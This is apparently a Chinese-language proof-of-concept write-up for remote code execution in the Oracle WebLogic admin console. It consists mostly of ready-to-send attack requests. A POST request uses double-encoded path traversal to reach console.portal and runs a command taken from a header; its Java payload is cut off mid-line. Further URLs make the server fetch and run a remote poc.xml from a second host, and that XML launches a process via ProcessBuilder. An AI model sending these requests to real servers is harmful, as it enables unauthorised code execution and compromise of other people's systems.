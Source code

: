 POC POST方式执行id命令

```http
POST/console/css/%252e%252e%252fconsole.portal HTTP/1.1
Host:192.168.60.130:7001
cmd: id
User-Agent:Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, likeGecko) Chrome/85.0.4183.121 Safari/537.36
Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding:gzip, deflate
Accept-Language:zh-CN,zh;q=0.9
Connection: close
Content-Type:application/x-www-form-urlencoded
Content-Length: 1258
 
_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("weblogic.work.ExecuteThreadexecuteThread = (weblogic.work.ExecuteThread) Thread.currentThread();
weblogic.work.WorkAdapteradapter = executeThread.getCurrentWork();
java.lang.reflect.Fieldfield = adapter.getClass().getDeclaredField("connectionHandler");
field.setAccessible(true);
Object obj =field.get(adapter);
weblogic.servlet.internal.ServletRequestImplreq = (weblogic.servlet.internal.ServletRequestImpl) obj.getC
```



#### 加载远程项XML文件执行

尝试通过FileSystemXmlApplicationContext()加载并执行远端xml文件：

```
http://192.168.1.111:7001/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://192.168.3.1/poc.xml")
```


通过ClassPathXmlApplicationContext()也可以达到相同的效果：

```
http://192.168.3.136:7001/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.bea.core.repackaged.springframework.context.support.ClassPathXmlApplicationContext("http://192.168.3.1/poc.xml")
```


poc.xml如下：

```xml
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="http://www.springframework.org/schema/beans
                           http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
            <list>
                <value>cmd</value>
                <value>/c</value>
                <value><![CDATA[calc]]></value>
            </list>
        </constructor-arg>
    </bean>
</beans>
```
